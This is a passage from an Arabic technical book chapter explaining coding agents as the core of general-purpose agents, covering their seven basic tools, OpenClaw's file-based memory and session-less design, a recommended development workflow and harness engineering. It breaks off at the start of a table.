

# وكيل البرمجة وتوليد الشفرة

تناولت الفصول السابقة هندسة السياق في الفصلين الثاني والثالث، وتصميم الأدوات في الفصل الرابع. ويجمع هذا الفصل تلك العناصر للإجابة عن سؤال أساسي: **كيف نبني وكيلًا عامًا قادرًا على التعامل مع مهام مفتوحة وغير متوقعة؟**

الجواب أن **الوكيل العام الموجّه إلى المهام المفتوحة** يقوم في جوهره على **وكيل برمجة** يستطيع كتابة الشفرة وتعديلها وتشغيلها، وعلى **نظام ملفات** يستخدمه مساحة عمل لحفظ الشفرة والبيانات والذاكرة والنتائج الوسيطة، كما ينظم المبرمج مشاريعه في مجلدات الحاسوب. ومن Manus إلى OpenClaw تتبع الوكلاء العامة الناجحة الموجّهة إلى المهام المفتوحة هذا النمط نفسه.

لماذا يمكن لتوليد الشفرة أن يحمل هذا الوزن؟ لأنه ليس مجرد أداة، بل **قدرة فوقية** — أي القدرة على إنشاء أدوات وقدرات جديدة ديناميكيًا أثناء التشغيل. ويطوّر النصف الثاني من هذا الفصل هذا المفهوم كاملًا، إلى جانب الاتجاهات الستة التي ينطبق عليها.

تخدم الشفرة الوكيل على مستويين. فهي، بوصفها وسيلة **للتفكير**، تفرض الدقة؛ فعبارة «العمر أكبر من 18 عامًا والهوية موثقة» قد تحتمل أكثر من قراءة، بينما لا تقبل الشفرة إلا تفسيرًا محددًا. وهي، بوصفها وسيلة **للتعبير**، قابلة للتنفيذ، ولذلك تكشف اتساقها المنطقي بنفسها وتوفر نتائجها معيارًا موضوعيًا للصحة.

يبدأ الفصل بالقدرات الأساسية لوكيل البرمجة وبنية الوكيل العام في OpenClaw، ثم يعرض تطبيقات توليد الشفرة في سيناريوهات تمتد من التفكير الرياضي وإنشاء المحتوى إلى بناء قدرات جديدة على مستوى النظام.

## وكيل البرمجة

### البرمجة بوصفها قدرة تأسيسية للوكيل

**ليس توليد الشفرة حكرًا على عدد قليل من الوكلاء المتخصصين، بل قدرة تأسيسية ينبغي أن يمتلكها كل وكيل عام.** ومع أحدث النماذج لا يتطلب منح الوكيل قدرة برمجية أساسية بنية معقدة.

تغطي هذه الفئات الخمس من العمليات تقريبًا كل إجراء أساسي لوكيل البرمجة، وهي المصدر الذي تنبثق منه الأدوات السبع الأساسية. ترتبط الفئات الخمس بشكل طبيعي بست أدوات؛ أما الأداة السابعة وهي **مفسر الشفرة (Code Interpreter)**، فتعالج عمليات "تنفيذ الشفرة والحساب"، وفي بعض التطبيقات تُدمج داخل بيئة الطرفية (Bash) — تشكل الأدوات السبع مجموعة مرجعية عملية متكاملة.

يحتاج وكيل البرمجة الأساسي إلى التجهز بالأدوات السبع التالية:

1. **مفسر الشفرة (Code Interpreter)**: يوفر بيئة حماية معزولة (Sandbox) لتشغيل شفرات Python بأمان دون التأثير على النظام المضيف.
2. **سطر الأوامر (Bash Shell)**: ينفذ أوامر الطرفية، مثل تشغيل الاختبارات أو معالجة البيانات عبر الأدوات المتاحة.
3. **أداة قراءة الملفات (read_file)**: تقرأ الشفرات والتكوينات والوثائق والسجلات.
4. **أداة كتابة الملفات (write_file)**: تنشئ ملفات جديدة أو تستبدل المحتوى بالكامل.
5. **أداة تعديل الملفات (edit_file)**: تجري تعديلات جزئية دقيقة على الملفات الموجودة، وهي عملية جوهرية للتطوير التراكمي.
6. **أداة مطابقة أسماء الملفات (Glob)**: تحدد موقع الملفات عبر أنماط مطابقة المسارات (مثل `**/*.py`).
7. **أداة البحث في المحتوى (Grep)**: تبحث عن أنماط نصية محددة داخل محتويات الملفات.

تشكل هذه الأدوات السبع مجموعة كاملة وبسيطة يمكن لأي نظام وكيل دمجها بتكلفة منخفضة. وتُعرض جميعها كخدمات أدوات موحدة عبر بروتوكول MCP المعروض في الفصل الرابع.

لمعرفة كيفية عمل الأدوات السبع معًا، قم بتنفيذ أبسط المهام. لنفترض أن المستخدم يقول، "ساعدني في تجميع قائمة بجميع تعليقات المهام في المشروع":

```text
Agent (thinking): Need to find all code lines containing TODO.
Agent → Grep("TODO", glob="**/*.py")          # Search file content
Tool returns:
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent (thinking): Found 3 TODOs, compile them into a list and write to a file.
Agent → Write("TODO_LIST.md", content="...")   # Write file
Tool returns: File created

Agent: Done. Found 3 TODO items, the list is saved in TODO_LIST.md.
```

استخدمت العملية بأكملها أداتين فقط: Grep (محتوى البحث) والكتابة (كتابة الملف). إذا كانت المهمة أكثر تعقيدًا - مثل "حساب عدد المهام لكل وحدة ورسم مخطط شريطي" - فسيستخدم الوكيل أيضًا مفسّر الشفرة لتنفيذ كود Python للإحصائيات والتخطيط. الأدوات السبعة بسيطة بشكل فردي؛ وهي تغطي مجتمعة مجموعة رائعة من المهام.

قد يتساءل القارئ: لماذا سبع أدوات وليست ستًا؟ في الواقع، تكفي أداة واحدة هي Bash Shell. فـ OpenAI Codex لا يقدّم سوى Bash Shell، وينجز بهذه الأداة الواحدة جميع عمليات قراءة الملفات وكتابتها والبحث فيها. ومع ذلك، لا يزال بعض الوكلاء الآخرين يحتفظون بأدوات منفصلة لقراءة الملفات وكتابتها. وقد أُفردت الأدوات السبع في هذا الكتاب لتسهيل فهم القارئ للقدرات الأساسية التي يحتاجها وكيل البرمجة (Coding Agent).

لماذا يجب أن يتمتع كل وكيل للأغراض العامة بقدرة على البرمجة؟ لأن إنشاء التعليمات البرمجية لا يتعلق فقط بكتابة البرامج، بل هو وسيلة للأغراض العامة لحل المشكلات. في مواجهة مشكلة رياضية، يمكن للوكيل كتابة التعليمات البرمجية وتسليمها إلى أحد المحللين للحصول على إجابة دقيقة؛ في مواجهة قواعد العمل التي يجب تحديدها، تكون التعليمات البرمجية أكثر دقة بكثير من أي وصف باللغة الطبيعية؛ في حالة عدم وجود أداة، يمكنه كتابة واحدة على الفور؛ عندما يتغير تنسيق البيانات، يمكنه إنشاء منطق تحليل جديد. تتناول الأقسام اللاحقة كلًا من هذه السيناريوهات بدورها. يمكن للوكيل الذي يتمتع بقدرة أساسية على البرمجة - حتى لو لم يكن مجهزًا بأي شيء سوى الأدوات السبع البسيطة المذكورة أعلاه - توسيع قدراته كلما ظهرت حاجة جديدة.

### دراسة حالة: من Manus إلى OpenClaw — جوهر البرمجة لوكلاء الأغراض العامة

تجمع منتجات الوكلاء للأغراض العامة مثل Manus وOpenClaw ثلاث قدرات رئيسية — Deep Research وComputer Use وCoding — في نظام واحد. فلماذا وصف مطلع هذا الفصل وكيل البرمجة بأنه القلب، لا أيًّا من الاثنتين الأخريين؟

لأن معظم توليد المحتوى الفعّال ينتهي في النهاية إلى كود. فالعروض التقديمية PowerPoint ومستندات Word هي في الأساس كود بصيغة OOXML (Office Open XML، المعيار المفتوح من Microsoft لمستندات المكتب). ويمكن توليد تقارير PDF عبر Markdown أو HTML أو LaTeX؛ ويمكن لبرامج Python تنفيذ تحليل البيانات والتصور؛ بل يمكن أيضًا التقاط تسلسلات التشغيل الناجحة في العمل عبر الواجهة الرسومية ككود قابل لإعادة الاستخدام (انظر الفصل 9). ويمكن تنفيذ البحث العميق وتركيب المعلومات عبر طلبات الويب والتحليل المعتمدة على الكود. وComputer Use أكثر تنوعًا، لكن الاستدعاءات المباشرة للكود أو API تكون عمومًا أرخص وأسرع وأكثر موثوقية في العمليات المكافئة. لذا فإن توليد الكود هو أساس القدرة الأكثر كفاءة والأقل تكلفة والأكثر قابلية لإعادة الاستخدام.


دعونا نفهم هذه البنية من خلال تدفق التنفيذ الملموس. لنفترض أن المستخدم يطلب "ساعدني في تحليل بيانات مبيعات الربع الأخير وإنشاء تقرير ملخص":

1. **ذاكرة القراءة**: يقرأ الوكيل `MEMORY.md` ويكتشف أن المستخدم يفضل التقارير بتنسيق PDF ومصدر البيانات هو جداول بيانات Google
2. **أدوات الاتصال**: الحصول على تعليمات الاستخدام لجداول بيانات Google API عبر وحدة بحث الويب، وتنزيل البيانات عبر تنفيذ التعليمات البرمجية
3. **كتابة الكود**: إنشاء برنامج نصي لتحليل البيانات في Python (تجميع الباندا، تصور matplotlib)
4. **إنشاء عناصر**: يكتب نتائج التحليل إلى `report.pdf`، ويرسم المخططات إلى دليل `charts/`
5. **تحديث الذاكرة**: يسجل في `MEMORY.md` أن "بيانات مبيعات المستخدم موجودة في جداول بيانات Google، المعرف: xxx"، لذلك لا داعي للسؤال في المرة القادمة

طوال العملية، يكون نظام الملفات هو مركز تدفق المعلومات - حيث تتم قراءة الذاكرة من الملفات، ويتم كتابة العناصر إلى الملفات، كما يتم حفظ الخبرة كملفات.

**نظام الملفات باعتباره المحور المركزي للوكيل.** في تصميم OpenClaw، يعد نظام الملفات أكثر بكثير من مجرد تخزين بيانات - فهو المحور المركزي لذاكرة الوكيل ومعرفته وقدراته. يتم تخزين الذاكرة طويلة المدى للوكيل في `MEMORY.md` (الحقائق عالية المستوى وتفضيلات المستخدم) وسجلات Markdown المؤرشفة حسب التاريخ. قد يبدو اختيار Markdown على قاعدة بيانات متجهة أمرًا غير بديهي، ولكنه فعال للغاية: يمكن للمستخدمين فتح الملفات مباشرة لقراءة ذاكرة الوكيل وتعديلها (إذا أخطأ الوكيل في تذكر شيء ما، فما عليك سوى حذف هذا السطر)، ويحتفظ Markdown بشكل طبيعي بالترتيب الزمني لتجنب الارتباك الزمني في الاسترجاع الدلالي، ويدعم التحكم في الإصدار والتراجع عبر Git.

والأهم من ذلك، نظرًا لأن الوكيل يمكنه كتابة الملفات، فإنه يمتلك الوسائل التقنية لتعديل عناصره الخارجية. عندما يقوم الوكيل بتنفيذ مهمة لأول مرة ويكتشف معلومات أساسية لم يكن يعرفها من قبل - على سبيل المثال، عند الاتصال ببنك معين، يعلم أن البنك يطلب عنوان الفرع للتحقق من الهوية - يمكنه أولاً كتابة الاكتشاف في سجل. إن تحديد متى يكون هذا السجل كافيًا ليصبح معرفة أو تعليمات أو برنامجًا موثوقًا به لا يزال يتطلب مسارات إضافية والتحقق من صحة النتائج. هذه هي مشكلة التطور المستمر التي تمت مناقشتها في الفصل التاسع.

**حدود قابلية التطبيق: أي الوكلاء يعتبرون الترميز بمثابة البنية الأساسية الخاصة بهم.** ينطبق الاستنتاج القائل بأن "وكيل البرمجة هو جوهر وكيل الأغراض العامة" بشكل أساسي على **الوكلاء للأغراض العامة الذين يستهدفون المهام ذات النهايات المفتوحة** - سيناريوهات مثل البحث العميق، وتوليد المحتوى، ومعالجة البيانات، حيث تكون حدود المهام غير مؤكدة وتتنوع الأشكال المصطنعة. في هذه السيناريوهات، من المستحيل تعداد جميع الأدوات اللازمة مسبقًا؛ يوفر توليد الكود، باعتباره قدرة وصفية، المسار الأكثر اقتصادا لتوسيع حدود القدرة ديناميكيًا، مما يجعله جوهر البنية. على النقيض من ذلك، يعمل وكلاء خدمة العملاء والمساعدون الصوتيون في المجال الرأسي في مساحات مهام مغلقة نسبيًا، مع بنيات أساسية مبنية على عمليات تجارية ثابتة، وأدوات المجال، واستراتيجيات الحوار؛ هناك، الكود هو أداة في صندوق الأدوات وليس المحور المعماري (في مثال τ-bench لاحقًا في هذا الفصل - وهو معيار يحاكي سيناريوهات خدمة العملاء - يلعب الكود بالضبط دور أداة التحقق من السياسة). ومع ذلك، حتى في الحالة الأخيرة، تعد البرمجة قدرة أساسية لا غنى عنها: يعتمد كل من الحساب الدقيق ومعالجة البيانات والتحقق من القواعد على ذلك - وهذا يعكس التأكيد في القسم السابق، "الترميز باعتباره قدرة الوكيل التأسيسي": ما إذا كان التشفير هو البنية الأساسية يعتمد على السيناريو، ولكن امتلاك القدرة على التشفير هو خط أساس مشترك لجميع الوكلاء.

بعد ذلك، نناقش تصميمين - وضع التفاعل "المتاح دائمًا" وبنية الأمان - واللذان قد يبدوان غير مرتبطين بموضوع وكيل البرمجة للوهلة الأولى. ومع ذلك، فإنها تحدد بشكل مباشر كيفية إدارة الوكيل لبيئة تنفيذ التعليمات البرمجية وحالة نظام الملفات، وهي الاهتمامات الأساسية لوكيل البرمجة. (يمكن للقراء الذين يرغبون أولاً في فهم كيفية عمل وكيل البرمجة خطوة بخطوة الانتقال إلى قسم "سير العمل الشامل لوكيل البرمجة" والعودة هنا للاطلاع على تصميم التفاعل والأمان.)

يعتمد OpenClaw تصميم **بدون جلسات**: لا يحتاج المستخدمون إلى تثبيت التطبيق أو تسجيل الدخول إليه، أو فتحه قبل كل تفاعل؛ الوكيل متصل دائمًا، ويمكن للمستخدمين إرسال رسالة في أي وقت عبر منصة المراسلة التي يستخدمونها بالفعل للحصول على رد - تمت مناقشة نموذج التفاعل هذا وتوجيه رسائل البوابة الأساسية والبنية المستندة إلى الحدث بالتفصيل في قسم أداة اتصال المستخدم في الفصل السادس ولن يتم تكراره هنا. ما يستحق التأكيد عليه هو الشرط الأساسي لعمل هذا النموذج: لقد نضجت النماذج الكبيرة بما يكفي لتكون بمثابة نوع جديد من "الأساس الذكي" - على غرار الطريقة التي يلخص بها نظام التشغيل التقليدي الأجهزة ويوفر واجهة موحدة لتطبيقات الطبقة العليا، تلخص النماذج الكبيرة تعقيد فهم اللغة والاستدلال والتخطيط، مما يوفر تجريدًا ذكيًا موحدًا لوكلاء الطبقة العليا. وبسبب هذا الأساس بالتحديد يمكن تصميم نموذج "الاتصال دائمًا + الاستجابة الفورية" بتكلفة منخفضة.

يتمثل التحدي الهندسي الأهم في تشغيل وكيل البرمجة بين الجلسات في **الحفاظ على بيئة التنفيذ وحالة نظام الملفات من رسالة إلى أخرى**. فقد تفصل بين رسالتين دقائق أو أيام، بينما يعتمد عمل الوكيل على حالة ضمنية واسعة: الحزم المثبتة داخل البيئة المعزولة، ودليل العمل ومتغيرات البيئة، وخوادم التطوير العاملة في الخلفية، والملفات التي لم يكتمل تحريرها. يعالج OpenClaw هذه الحالة على مستويين. أولًا، **تُحفظ حالة نظام الملفات بصورة دائمة** عبر ربط مساحة العمل بتخزين مستمر خارج البيئة المعزولة، فتنجو الشفرة والبيانات والنتائج الوسيطة من إعادة تشغيلها. وهذا وجه آخر لفكرة «نظام الملفات محورًا مركزيًا للوكيل». ثانيًا، **تبقى العمليات حية أثناء النشاط أو يعاد بناؤها عند الحاجة**: تظل البيئة المعزولة وجلستها الطرفية قيد التشغيل لتجنب البدء البارد وإعادة تهيئة دليل العمل والبيئة الافتراضية مع كل رسالة. وبعد انقضاء مهلة الخمول تُوقَف لاستعادة الموارد، لكن حالتها القابلة للحفظ — كدليل العمل ومتغيرات البيئة وقائمة مهام الخلفية — تُسجَّل أولًا في ملفات مساحة العمل، ثم يعيد الوكيل بناءها عند الاستيقاظ التالي. والجلسة الطرفية المستمرة التي سنناقشها لاحقًا هي الصورة المصغرة من الآلية نفسها داخل مهمة واحدة؛ أما التشغيل بين الجلسات فيمدها عبر رسائل وأيام.

لا تحتاج الجلسة إلى صيانة - تتطلب كل رسالة مستخدم **إعادة تحميل المسار الكامل وحالة العمل**، مما يضع علاوة على تسلسل الحالة الفعال واستراتيجيات ضغط المسار الفعالة؛ تمت تغطية مبادئ تصميم ضغط المسار في قسم "استراتيجيات ضغط السياق" في الفصل الثاني، بينما يركز هذا الفصل على المقايضات الهندسية التي تفرضها البنية بدون جلسات.

### سير العمل المتكامل لوكيل البرمجة


**توثيق المشروع.**

يبدأ عمل وكيل البرمجة بفهم منهجي للمشروع. عندما يواجه الوكيل مستودع تعليمات برمجية لأول مرة، فإن مهمته الأولى ليست البدء في تعديل التعليمات البرمجية ولكن بناء إطار معرفي للمشروع بأكمله - تمامًا كما لا يقوم المهندس الجديد بتطبيق التعليمات البرمجية في اليوم الأول، ولكنه يبدأ بتعلم طبيعة الأرض. يبدأ الوكيل بالتحقق مما إذا كان المشروع يحتوي على وثائق - الملف التمهيدي ووثائق التصميم المعماري وأدلة المطورين.

إذا كانت المستندات الأساسية مفقودة، فلا ينبغي للوكيل أن يبدأ العمل بشكل أعمى. يجب أن يقوم بفحص قاعدة التعليمات البرمجية بشكل منهجي، وتحديد الوحدات الرئيسية، والتجريدات الأساسية، وتبعيات المكونات، وصياغة نظرة عامة على البنية، ودليل الدليل، وتعليمات تشغيل الاختبارات. تعمل هذه المستندات كمخطط لعمل الوكيل اللاحق وتوفر نقطة دخول للمطورين الآخرين. وهذا يجسد مبدأ أساسيا: إن نقل المعرفة إلى الخارج هو شرط أساسي للتعاون الفعال.

تحتوي وثائق المشروع الآن على نموذج خاص بالوكلاء: **ملفات تعليمات المشروع**. أصبحت ملفات مثل CLAUDE.md، وAGENTS.md، و.cursorrules هي معايير الصناعة الفعلية - حيث يتم إدخالها تلقائيًا في السياق في بداية كل جلسة، لتكون بمثابة موجّهات النظام على مستوى المشروع. على عكس ملفات README المخصصة للقراء البشريين، تحمل ملفات التعليمات اصطلاحات سلوكية للوكلاء: أوامر البناء والاختبار ("استخدم `pnpm test` بدلاً من `npm test`")، ونمط التعليمات البرمجية ("تجنب نوع `any`")، ومسح المناطق المحظورة ("لا تقم بتعديل دليل `migrations/`"). هذه هي نفس فكرة `SOUL.md` الخاصة بـ OpenClaw (التي تحدد هوية الوكيل وقواعد سلوكه) و`MEMORY.md` (تجميع الخبرة عبر الجلسات)، المطبقة على مستويات مختلفة: يحدد SOUL.md "من هو الوكيل"، بينما تحدد ملفات تعليمات المشروع "كيفية العمل في هذا المشروع". من منظور هندسة السياق في الفصل الثاني، تعد ملفات التعليمات أيضًا البادئة الأكثر استقرارًا من الناحية الاقتصادية - حيث لا يتغير محتواها مع المهمة، مما يجعلها صديقة للبيئة بشكل طبيعي KV Cache؛ إنها أيضًا التنفيذ الأكثر مباشرة للمبدأ القائل بأن "المعرفة يجب أن تكون موجودة داخل قاعدة التعليمات البرمجية نفسها."

لمبدأ نقل المعرفة خارجيًا أيضًا نتيجة طبيعية مثيرة للاهتمام: **الفرق التي تتعامل مع العمل عن بعد غالبًا ما تكون أيضًا صديقة لوكلاء الذكاء الاصطناعي.** تضطر الفرق عن بعد إلى الاعتماد على الاتصالات والوثائق غير المتزامنة - يتم تسجيل القرارات في المستندات، ويعيش السياق في أوصاف المشكلات والعلاقات العامة، وتتراكم المعرفة القبلية في أدلة المطورين بدلاً من تمريرها شفهيًا في المكتب التالي أو على السبورة البيضاء في غرفة الاجتماعات. هذا هو بالضبط شكل المعرفة التي يمكن للوكلاء استهلاكها: لا يستطيع الوكيل قراءة اتفاقية شفهية، ولكن يمكنه قراءة مستند التصميم. وعلى العكس من ذلك، فإن الفريق الذي يعمل بنظام "فقط اسأل الشخص الذي يجلس بجانبي" يفرض نفس تكلفة الإعداد الباهظة على الوكيل كما هو الحال مع الموظف الجديد عن بعد. وكيل بسيط لـ "استعداد الفريق للذكاء الاصطناعي": هل يمكن للوافد الجديد عن بعد العمل بشكل مستقل دون أي شيء سوى مستودع التعليمات البرمجية ووثائقه؟

**فهم المهام وتوضيح المتطلبات.**

بالنسبة للمتطلبات البسيطة ذات الحدود الواضحة والتأثير المحدود - مثل إصلاح خطأ معروف أو ضبط معلمات الوظيفة - يمكن للوكيل المتابعة مباشرةً إلى مرحلة التنفيذ. ومع ذلك، فإن معظم المهام في تطوير البرمجيات ليست بهذه البساطة.

بالنسبة للمتطلبات المعقدة، يجب أن يكون الوكيل أكثر حذرًا ومنهجية. يمكن أن ينشأ التعقيد من أبعاد متعددة: غموض المتطلبات نفسها (يعرف المستخدم ما يريده ولكن لا يمكنه التعبير عنه بدقة)، أو تنوع مسارات التنفيذ (حلول تقنية متعددة مع مقايضات خاصة بها)، أو اتساع التأثير (يتطلب تعديلات على وحدات متعددة، مما قد يؤدي إلى تعطيل الوظائف الحالية). يجب على الوكيل توضيح الحدود من خلال البحث الاستكشافي والمشاركة بشكل استباقي في الحوار مع المستخدم عند الضرورة. على سبيل المثال، عندما يطلب المستخدم "تحسين أداء النظام"، يحتاج الوكيل أولاً إلى تحديد الهدف المحدد (تقليل وقت الاستجابة، أو تقليل استخدام الذاكرة، أو زيادة الإنتاجية)، وما هي المقايضات المقبولة (على سبيل المثال، ما إذا كانت زيادة تعقيد التعليمات البرمجية مقبولة)، وأين يكمن عنق الزجاجة الحالي. غالبًا ما يؤدي البدء في البرمجة بينما لا تزال المتطلبات غامضة إلى إعادة صياغة كبيرة.

**كتابة وثيقة التصميم.**

وثيقة التصميم هي جسر يترجم المتطلبات المجردة إلى خطة تنفيذ ملموسة. وينبغي أن تجيب على أربعة أسئلة أساسية: ما هي الوحدات التي ينبغي تعديلها ولماذا، وما هو النهج الذي ينبغي اختياره وما هي المقايضات التي ينطوي عليها، وما هي التبعيات الجديدة اللازمة، وما هو التأثير المتوقع للتغييرات على النظام. إن كتابة مستند التصميم هو في حد ذاته تفكير عميق، فهو يجبر الوكيل على التحقق من صحة جدوى الحل من الناحية النظرية قبل الاستثمار بكثافة في البرمجة. والأهم من ذلك، أن وثيقة التصميم توفر نقطة تدخل فعالة للبشر - فمراجعة وثيقة تصميم موجزة أسهل بكثير من مراجعة مئات الأسطر من التعليمات البرمجية. بعد الانتهاء من وثيقة التصميم، يجب على الوكيل تقديمها لمراجعة المستخدم وانتظار الموافقة قبل المتابعة.

**تنفيذ التعليمات البرمجية واختبارها.**

بعد الحصول على موافقة التصميم، يتبع الوكيل اصطلاحات التعليمات البرمجية الخاصة بالمشروع للتنفيذ، ويعيد استخدام التجريدات والأدوات الموجودة، ويقوم بإجراء إعادة هيكلة معتدلة عند الضرورة للحفاظ على سلامة قاعدة التعليمات البرمجية.

بعد التنفيذ ينتقل الوكيل مباشرةً إلى ضمان الجودة بالاختبارات. فيكتب حالات تغطي المسار المعتاد والحالات الحدّية وسيناريوهات الخطأ، ثم يشغّل مجموعة الاختبار. وإذا ظهر فشل، فعليه الاحتفاظ بمخرجاته دليلًا، وتشخيص سببه، وإصلاح التنفيذ، وإعادة الاختبار. ولا يجوز له تعديل اختبار قائم أو حذفه لمجرد الحصول على نتيجة خضراء؛ لا تتغير الاختبارات إلا إذا تغيّرت المتطلبات، ويجب توثيق ذلك التغيير صراحةً. وقد تتكرر حلقة «اختبر ← أصلح ← أعد الاختبار» مرات عدة، وهي التي تنقل وكيل البرمجة من مولّد شفرة إلى مساعد هندسي موثوق. أما أكثر سبل التعثر شيوعًا فهو تجاوز هذه المرحلة تمامًا: كتابة الشفرة ثم إعلان اكتمال المهمة من دون تشغيل الاختبارات. إن اعتماد **اجتياز التحقق**، لا مجرد **كتابة الشفرة**، معيارًا للإنجاز هو تطبيق مباشر لهندسة الحلقة: يحدد التحقق متى يصبح التوقف آمنًا.

حتى لو نجحت جميع الاختبارات، فإن عمل الوكيل لم يكتمل. المرحلة التالية هي مراجعة الكود: يقوم الوكيل بفحص الكود الذي تم إنشاؤه بشكل نقدي. هل هي قابلة للقراءة والتعليق عليها بشكل كاف؟ هل هناك مشاكل كامنة في الأداء أو ثغرات أمنية؟ هل يتبع نمط كود المشروع وأفضل الممارسات؟ يمكن إجراء هذه المراجعة الذاتية عن طريق قراءة التعليمات البرمجية، أو تشغيل أدوات Lint، أو الاتصال بوكيل فرعي مخصص لمراجعة التعليمات البرمجية. إذا وجدت المراجعة مشكلات، فيجب على الوكيل العودة إلى مرحلة التعديل وإصلاحها، بدلاً من تسليم تعليمات برمجية معيبة إلى المستخدم.

**مزامنة الوثائق وتسليمها.**

إذا كانت تغييرات التعليمات البرمجية تتضمن تغييرات معمارية - مثل تقديم وحدة نمطية جديدة، أو تغيير التبعيات بين الوحدات، أو تغيير دلالات التجريدات الأساسية - يحتاج الوكيل إلى تحديث وثائق البنية وفقًا لذلك. التوثيق القديم أسوأ من عدم التوثيق لأنه يضلل المطورين المستقبليين. ومن خلال تحديث الوثائق تلقائيًا بعد كل تغيير مهم، يساعد الوكيل في الحفاظ على سلامة قاعدة معارف المشروع وحسن توقيتها.

يجسد سير العمل هذا المبادئ الأساسية لهندسة البرمجيات: التخطيط يسبق العمل، ويتم التحقق طوال الوقت، وتتطور الوثائق جنبًا إلى جنب مع التعليمات البرمجية.

لاحظ أن العملية الموصوفة أعلاه هي **سير عمل هندسي موصى به**. أما وكلاء البرمجة في العالم الواقعي (مثل Claude Code وCodex) فيختصرونه حسب الحاجة: فمهمة إصلاح خطأ بسيطة تتجاوز توليد وثيقة تصميم، بينما تمر فقط المهام المعقدة واسعة الأثر بكل مرحلة كاملًا.

تختصر النماذج المختلفة سير العمل هذا بطرق مختلفة. فبعض نماذج البرمجة تقرأ بنية المستودع والتنفيذ ومواضع الاستدعاء والاختبارات على نطاق واسع قبل أول تعديل. بينما تفحص نماذج أخرى الملفات القليلة الأرجح صلةً فقط، ثم تُجري رقعة مبكرة، وتتعامل مع ملاحظات المترجم والاختبارات بوصفها جزءًا من الاستقصاء. ويمكن لهذه العتبة الخاصة بتحديد متى يتوقف جمع المعلومات ويبدأ الفعل أن تظل مع النموذج بعد تغيير الـ harness، كما يمكن أن تتغير عند تبديل النموذج داخل الـ harness نفسه. لذلك فهي أولًا وقبل كل شيء **سلوك تعلّمه النموذج**، لا مجرد أسلوب واجهة في منتج Coding. ويمكن للموجّهات والأدوات والميزانيات داخل الـ harness أن تضخّم هذا السلوك أو تكبحه، لكنها ليست بالضرورة مصدره. يقيس الفصل 7 هذا الاختلاف في harness ثابت؛ ثم يشرح الفصل 8 كيف يمكن لما بعد التدريب أن يكتب مثل هذه السياسة في المعلمات.

### الممارسة العملية لهندسة منظومة التشغيل في وكلاء البرمجة

قدّم الفصل الأول مفهوم هندسة منظومة التشغيل ومعادلة **الوكيل = النموذج + منظومة التشغيل**. وتشمل المنظومة السياق والأدوات الواردين في المعادلة الأساسية، إلى جانب القيود والتحقق والتصحيح؛ وهذه هي وظائفها الخمس. وربما كانت البرمجة أكثر المجالات إظهارًا لقيمة هذه الهندسة، لأن نواتجها **من أسهل مهام الوكيل تحققًا**، ولأن قيودها وآليات التحقق والتصحيح فيها تستطيع الاستفادة من بنية برمجية قائمة. ويركز هذا القسم على الممارسة الفعلية لهندسة منظومة التشغيل في وكلاء البرمجة.

ما إذا كان النظام يعمل بشكل مستقر غالبًا ما يعتمد بدرجة أقل على قوة النموذج وبشكل أكبر على قوة البنية التحتية المبنية حول الوكيل. يقسم الفصل الأول الأدوات إلى طبقتين - **السياق والأدوات** (تمكين الوكيل من التصرف) و**القيود والتحقق والتصحيح** (مساعدة الوكيل على التصرف بأمان وبشكل صحيح). في سيناريو وكيل البرمجة، تُترجم هذه العناصر إلى مكونات هندسية محددة:

- **خط الأساس للقبول**: ما الذي يشكل "تم" - مجموعات الاختبار، ومسار CI (مسار التكامل المستمر، وسلسلة من عمليات التحقق التي يتم تشغيلها تلقائيًا بعد إرسال التعليمات البرمجية)، ومعايير مراجعة التعليمات البرمجية
- **حدود التنفيذ**: ما يمكن للوكيل لمسه وما لا يمكنه لمسه — حدود الوحدة، وقواعد التبعية، وضوابط الأذونات
- **إشارات التعليقات**: أحكام الصحة التلقائية — إخراج Linter (أداة التحقق من نمط التعليمات البرمجية التي يمكنها العثور تلقائيًا على أخطاء التنسيق والمشكلات المحتملة) ونتائج الاختبار وأخطاء التحقق من الكتابة
- **آلية التراجع**: كيفية الاسترداد في حالة حدوث خطأ ما — التحكم في إصدار Git، وعزل وضع الحماية، والتراجع عن اللقطة

**لماذا يعتبر وكلاء البرمجة مناسبين بشكل خاص لهندسة الأجهزة.**

هناك بعدان - مدى وضوح الهدف، ومدى التحقق التلقائي - يقسمان المهام إلى أربع حالات. الهدف الواضح ذو النتائج التي يمكن التحقق منها تلقائيًا هو المنطقة التي يزدهر فيها الوكلاء؛ هدف واضح لا يزال قبوله يعتمد على قدرة عيون الإنسان على سرعة المراجعة البشرية؛ التغذية الراجعة التلقائية ذات الهدف الغامض تسمح للنظام بالعمل بكفاءة في الاتجاه الخاطئ؛ وفي حالة عدم وجود كليهما، فإن الوكيل قليل الفائدة. ويبين الجدول 5-1 هذه الحالات الأربع. الهدف من منظومة التشغيل هو دفع أكبر عدد ممكن من المهام إلى رباعي "الهدف الواضح + التحقق الآلي".

جدول 5-1 الأرباع الأربعة لوضوح المهام وأتمتة التحقق

| | يمكن التحقق من النتائج آليًا | تتطلب النتائج تحققًا يدويًا |
